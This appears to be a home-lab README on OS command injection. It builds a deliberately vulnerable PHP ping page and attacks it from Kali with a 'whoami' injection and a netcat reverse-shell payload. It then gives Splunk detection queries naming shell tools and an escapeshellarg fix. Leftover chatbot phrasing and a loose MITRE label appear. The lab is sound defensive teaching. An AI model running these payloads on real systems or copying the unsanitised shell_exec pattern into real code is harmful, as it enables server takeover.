



# 🗺️Command Injection (OS Command Injection) (T1203)

## What is command injection?

**Command injection** is a class of vulnerability where an application constructs and executes operating-system commands using user input without properly restricting or escaping it. An attacker who controls that input can make the application run *additional* OS commands (or change the intended command), often allowing data disclosure, privilege escalation, or full system compromise.

For Example: **`ls` commands** means to list out all the present items, but by command injection, attacker alters it, to do something else malicious

* A program (for example, a web page or script) **takes something typed by a user** and puts that text straight into a shell command, then runs the shell.
* Because the shell understands special characters (like `;`, `&&`, `|`, `` ` ``), an attacker can include those and make the shell run **extra commands** the programmer didn’t intend.
* So the program *runs more than just `ls`* — it runs whatever else the attacker included.


Imagine code that builds a shell command by joining strings:

```python
# vulnerable (conceptual)
user_input = get_from_user()       # attacker controls this
command = "ls " + user_input
os.system(command)                 # runs the combined text in a shell
```

If `user_input` contains unexpected words or special characters, the shell will treat them as extra commands.

That's an excellent question! Understanding the **"why"** and the **workflow** of **Command Injection (T1203)** is key to effectively defending against it.

Here is the breakdown of the objective, motivation, and workflow for the Command Injection attack scenario in your project.

---

## 🎯 Command Injection: Objective and Motivation

The primary objective of performing and detecting this attack is to demonstrate expertise in **Web Application Security** and **Remote Code Execution (RCE) detection**.

| Key Question | Explanation (SOC/Security Focus) |
| :--- | :--- |
| **What is the Objective?** | To achieve **Remote Code Execution (RCE)** on the target Ubuntu server via a seemingly harmless web page input field. This proves the ability to execute OS commands (like `ls` or `whoami`) through the web application. |
| **Why Are We Doing This?** | **High Impact:** Command Injection is one of the most critical web vulnerabilities. Successfully detecting it proves you can secure the **entire technology stack**—from the web interface down to the operating system kernel. |
| **What is Happening?** | The vulnerable PHP code treats user input as a safe string but then passes it directly to the system's command shell (via functions like `shell_exec()`). The shell executes the input as a command, including the malicious separator characters (`&`, `|`, `;`) that the attacker inserts. |

---

## 🛠️ Phase 1: Environment Setup (Ubuntu VM)

### 1\. Create the Vulnerable Web Page (`ping.php`)

This PHP page will use the `shell_exec()` function, which is often the source of Command Injection when user input is passed directly to it.

1.  On your **Ubuntu VM**, create the file:

    ```bash
    sudo nano /var/www/html/ping.php
    ```

2.  Paste the following PHP and HTML code. **The objective is to allow the user to ping a network host.**

    ```php
    <!DOCTYPE html>
    <html>
    <head>
        <title>Vulnerable Ping Utility</title>
        <style>body { font-family: Arial, sans-serif; background-color: #ffe0e0; padding: 20px; }</style>
    </head>
    <body>
        <h1>Vulnerable Network Ping Utility</h1>
        <p style="color: red;">*Warning: This tool is vulnerable to OS Command Injection.</p>

        <form method="get" action="ping.php">
            <label for="host">Host or IP to Ping:</label>
            <input type="text" id="host" name="host" value="127.0.0.1" style="width: 300px;">
            <input type="submit" value="Ping Host">
        </form>

        <?php
        if (isset($_GET['host'])) {
            $target = $_GET['host'];
            
            // CRITICAL VULNERABILITY: User input ($target) is passed directly to the shell without sanitization.
            $command = "ping -c 4 " . $target;
            
            echo "<h2>Executing Command:</h2>";
            echo "<pre>". htmlspecialchars($command) ."</pre>";
            
            echo "<h2>Command Output:</h2>";
            // The shell_exec function executes the command and returns the output.
            $output = shell_exec($command);
            
            echo "<pre>" . $output . "</pre>";
        }
        ?>
    </body>
    </html>
    ```

3.  Save and close the file.

### 2\. Configure Splunk to Ingest Apache Access Logs

Since the attack happens over HTTP, the evidence is in the Apache access logs.

1.  **Splunk Web UI** $\rightarrow$ **Settings** $\rightarrow$ **Data Inputs** $\rightarrow$ **Files & Directories**.
2.  Click **+ Add new**.
3.  **File or Directory:** `/var/log/apache2/access.log`
4.  **Source Type:** `access_combined` (Standard Apache log format).
5.  **Index:** `os_logs` (or your preferred index).
6.  Click **Submit**.

-----

## ⚔️ Phase 2: Attack Execution (Kali VM)

The goal is to append a malicious OS command to the legitimate `ping` command using command separators (`&`, `;`, `|`).

1.  **Open your browser on the Kali VM.**
2.  Navigate to the vulnerable page: `http://[Ubuntu-VM-IP-Address]/ping.php`

### Attack 1: Information Gathering (T1203)

This confirms the vulnerability by forcing the server to run a simple, harmless OS command (`whoami`).

1.  In the "Host or IP to Ping" field, enter the following payload:

    ```
    127.0.0.1 & whoami
    ```




2.  Click **Ping Host**.

3.  **Expected Result on the Web Page:** The command output will show the results of the `ping` command, immediately followed by the output of the `whoami` command, which will be the web server user (usually **`www-data`**).

      * **Explanation:** The shell executes: `ping -c 4 127.0.0.1` **AND THEN** executes `whoami`. This confirms Remote Code Execution (RCE).

### Attack 2: Command and Control (T1071.001)

This is the serious attack: creating a reverse shell to gain persistent control.

1.  **Setup the Listener on Kali:** Open a Kali terminal and start a Netcat listener:

    ```bash
    nc -lvp 4444
    ```

2.  **Execute the Payload on the Web Form:** This command forces the Ubuntu server to initiate a shell connection back to your Kali listener.

    ```
    127.0.0.1 & nc 192.168.56.101 4444 -e /bin/bash
    ```

    *(Replace `192.168.56.101` with your **Kali VM's IP address**).*

3.  Click **Ping Host**.

4.  **Expected Result:** The Kali Netcat terminal should now show a connection (**`Connection received...`**), and you will have a full reverse shell connection, running commands as the `www-data` user on the Ubuntu server\!

-----

## 🛡️ Phase 3: Detection in Splunk

The entire payload, including the malicious characters (`&`, `whoami`, `nc`), is logged in the Apache `access.log`.

### Detection Query 1: Malicious Command Keywords (T1203)

This query searches for common OS commands that should *never* appear in a URL or GET request.

```splunk
index=os_logs sourcetype=access_combined "GET /ping.php" (
    "whoami" OR "nc" OR "netcat" OR "bash"
)
```

  * **Result:** This quickly isolates the events where the command injection occurred.

### Detection Query 2: Command Separation Characters

A more generic and robust detection looks for the characters that enable the injection itself (`&`, `|`, `;`) within the URL parameters.

```splunk
index=os_logs sourcetype=access_combined "GET /ping.php" (
    "&" OR "|" OR ";"
)
```

  * **Critical Learning:** The combination of **specific web path** (`ping.php`) and **shell characters** (`&`, `|`, `;`) is a strong indicator of Command Injection (RCE).

That is the perfect next step\! You have executed a critical attack and now need to fulfill the role of the SOC analyst by implementing both **Detection (Dashboard)** and **Prevention (Mitigation)** strategies.

Here is the plan for the Command Injection attack (T1203).

-----

## 🛡️ Phase 4: Mitigation Strategy

### Part A: Mitigation Strategy (Prevention)

The ultimate goal of defense is to stop the attack before it reaches the logs. The core of mitigation is fixing the vulnerability in the `ping.php` code.

| Mitigation Technique | Description | PHP Code Implementation |
| :--- | :--- | :--- |
| **Input Sanitization** | **MUST-HAVE:** Ensure that any external input passed to a shell function (`shell_exec`, `exec`, `system`) is treated as a single, literal string and cannot contain shell meta-characters (`&`, `|`, `;`). | Use the built-in PHP function **`escapeshellarg()`** to properly quote and escape the user input. |

#### **The Secured PHP Code**

On your **Ubuntu VM**, update the `ping.php` file to use `escapeshellarg()`:

```php
// BEFORE (VULNERABLE):
// $command = "ping -c 4 " . $target;

// AFTER (SECURE):
// 1. Sanitize the user input
$sanitized_target = escapeshellarg($target);

// 2. Build the command using the sanitized input
$command = "ping -c 4 " . $sanitized_target;

// Now, if the attacker inputs "127.0.0.1 & whoami", the shell sees it as one long, safe filename.
```

### Part B: Splunk Dashboard Panel (Detection)

We will integrate the Command Injection detection rule into your main "Adversary Detection Summary" dashboard.

#### **Command Injection Dashboard Panel**

| Panel Title | SPL Query | Visualization |
| :--- | :--- | :--- |
| **RCE Attempt: Command Injection** | `index=os_logs sourcetype=access_combined "GET /ping.php" ("&" OR "|" OR ";" OR "whoami" OR "nc") | stats count as RCE_Attempts by clientip, _time | where RCE_Attempts > 0 | table _time, clientip, RCE_Attempts` | **Table** or **Single Value** (Shows the number of attempts and the source IP) |
| **What it detects:** | **T1203 - Command Injection** (Identifies the shell meta-characters and malicious commands in the web request logs). | |

-----

## 🎨 Dashboard Creation Steps

1.  **Open/Edit Dashboard:** Go to your **`Adversary Detection Summary`** dashboard and click **Edit**.
2.  **Add Panel:** Click **Add Input** $\rightarrow$ **New (Search)**.
3.  **Paste Query:** Paste the SPL from the table above.
4.  **Title:** Set the title to **`RCE Attempt: Command Injection`**.
5.  **Visualize:** Select **Table** for the visualization type.
6.  **Save:** Click **Add to Dashboard** and then **Save** the dashboard.

By doing this, we've completed the full cycle for Command Injection: attack, detection, and prevention.
